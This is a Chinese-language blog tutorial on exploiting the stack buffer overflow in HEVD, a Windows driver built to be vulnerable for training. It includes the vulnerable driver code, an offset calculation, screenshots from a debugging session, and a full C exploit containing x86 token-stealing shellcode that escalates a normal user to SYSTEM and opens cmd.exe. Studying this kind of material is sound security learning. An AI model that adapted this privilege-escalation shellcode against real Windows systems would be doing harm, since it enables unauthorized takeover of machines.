 

+++

  author = "2st"
  title = "Windows Kernel Exploit 1-StackOverflow"
  date = "2020-06-15T23:36:17+08:00"
  description = "NULL"
  tags = [
      "kernel","exploit"

]
categories = [
    "Windows","pwn"
]
aliases = ["migrate-from-jekyl"]
favorite = true

+++

友好简单的Windows内核漏洞分析1

<!--more-->

### 0x1前置知识

StackOverflow：就是栈溢出的意思，是pwn的入门级知识，这里由于靶机的原因只展示x86下栈溢出的基本操作。

现在有：

```c
PVOID Dst[80];
PVOID UsrBuf[Size];
RtlCopyMemory(Dst,UsrBuf,Size);
```

而读入的时候，Size被攻击者所劫持，那么就造成了缓冲区溢出，以下图示：

![](http://23.91.100.118:8080/images/2020/06/15/a06bd3c02c5b332881ab241949cbeb15.png)

因为Size是可控制的，所以只要使填充的数据Size = sizeof(Buffer)+sizeof(Var0 + Var1 + ...) +sizeof(ebp)，之后写上构造的shellcode的地址，当这个函数结束返回它认为的'Caller'时，其实是返回到shellcode的位置。

整理一下，原驱动是这么写的：

```c
NTSTATUS
TriggerBufferOverflowStack(
    _In_ PVOID UserBuffer,
    _In_ SIZE_T Size
)
{
    NTSTATUS Status = STATUS_SUCCESS;
    ULONG KernelBuffer[BUFFER_SIZE] = { 0 };
    DbgPrint("[+] Defined: %X\n",BUFFER_SIZE);
    PAGED_CODE();
    __try
    {
        RtlCopyMemory((PVOID)KernelBuffer, UserBuffer, Size);
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        Status = GetExceptionCode();
        DbgPrint("[-] Exception Code: 0x%X\n", Status);
    }

    return Status;
}
```

这么一看漏洞利用就十分简单了：

1. 准备好shellcode
2. 计算覆盖长度，覆盖返回地址为shellcode的地址
3. 成功在R3提权

### 0x2 一点点API

同理，第一篇文章已经介绍过了，逆向得出/看原驱动咋写的

1. 触发栈溢出的漏洞函数

```c
#define STACKOVERFLOW 0x222003
DeviceIoControl(hDevice, STACKOVERFLOW, buf, 0x824, NULL, 0, &bReturn, NULL);
```

2. 提权shllcode（还是替换token）

```c
VOID ShellCode()
{
	//__debugbreak();
	__asm
	{
		pop    edi
		pop    esi
		pop    ebx
		pushad
		mov eax, fs: [124h]
		mov eax, [eax + 050h]
		mov ecx, eax
		mov edx, 4

		find_sys_pid :
		mov eax, [eax + 0b8h]
		sub eax, 0b8h
		cmp[eax + 0b4h], edx
		jnz find_sys_pid

		mov edx, [eax + 0f8h]
		mov[ecx + 0f8h], edx
		popad
		pop ebp
		ret 8
	}
}
```

### 0x3 调试验证过程

断点：

> HEVD!TriggerBufferOverflowStack

跑exp前不说了，普通用户权限，跑起来命中断点：

![](http://23.91.100.118:8080/images/2020/06/15/5ead58e6d8497c12b6202b1452ebfcc7.png)

跑到RtlCopyMemory，先不执行，看一下此时的栈指针状态

![](http://23.91.100.118:8080/images/2020/06/15/b9e2cd7b08bdfdff3a3bab848bf7a37d.png)

计算一下需要覆盖的长度：0x820 = 0x95101ad0 - 0x951012b4 + 0x4，直接覆盖，可以看到ebp后面的返回地址被覆盖成了shellcode的地址，~~RtlCopyMemory的参数Size忘展示了，读者自行留意一下即可~~

![](http://23.91.100.118:8080/images/2020/06/15/b871d5331d1bda507ae3c8a1aa8a9e65.png)

成功在R3提权

### 0x4 留图纪念

![](http://23.91.100.118:8080/images/2020/06/15/c20d5f902fe232dc1f92b45152e333ed.png)

### 0x5 Tips

这个难度很低，有教程根据源码确定的KernelBuffer的大小，注意UserBuffer类型是PVOID，KernelBuffer的类型是ULONG，所以计算出来的是0x800 = 0x200 * 4，中间一些其他的变量占了0x20

### 0x6 Exp

```c
#include<stdio.h>
#include<windows.h>
#define STACKOVERFLOW 0x222003
/************************************************************************/
/*		        Stack Over flow                                 		*/
/*                 Write by Thunder_J 2019.6                            */
/************************************************************************/

VOID ShellCode()
{
	//__debugbreak();
	__asm
	{
		pop    edi
		pop    esi
		pop    ebx
		pushad
		mov eax, fs: [124h]
		mov eax, [eax + 050h]
		mov ecx, eax
		mov edx, 4

		find_sys_pid :
		mov eax, [eax + 0b8h]
		sub eax, 0b8h
		cmp[eax + 0b4h], edx
		jnz find_sys_pid

		mov edx, [eax + 0f8h]
		mov[ecx + 0f8h], edx
		popad
		pop ebp
		ret 8
	}
}

static VOID CreateCmd()
{
	STARTUPINFO si = { sizeof(si) };
	PROCESS_INFORMATION pi = { 0 };
	si.dwFlags = STARTF_USESHOWWINDOW;
	si.wShowWindow = SW_SHOW;
	WCHAR wzFilePath[MAX_PATH] = { L"cmd.exe" };
	BOOL bReturn = CreateProcessW(NULL, wzFilePath, NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, (LPSTARTUPINFOW)&si, &pi);
	if (bReturn) CloseHandle(pi.hThread), CloseHandle(pi.hProcess);
}

int main()
{
	char buf[0x824];
	HANDLE hDevice;
	DWORD bReturn = 0;
	
	hDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",
		GENERIC_READ | GENERIC_WRITE,
		FILE_SHARE_READ | FILE_SHARE_WRITE,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL | FILE_FLAG_OVERLAPPED,
		NULL
	);

	printf("Start to get HANDLE...\n");
	if (hDevice == INVALID_HANDLE_VALUE || hDevice == NULL)
	{
		printf("Failed to get handle...!\n");
		return 0;
	}
	//__debugbreak();
	memset(buf, 'A', 0x824);
	*(PDWORD)(buf + 0x820) = (DWORD)&ShellCode;

	// call TriggerStackOverflow()
	printf("Started to over flow...\n");
	//__debugbreak();
	DeviceIoControl(hDevice, STACKOVERFLOW, buf, 0x824, NULL, 0, &bReturn, NULL);

	printf("Started to Create cmd...\n");
	CreateCmd();
	return 0;
}
```

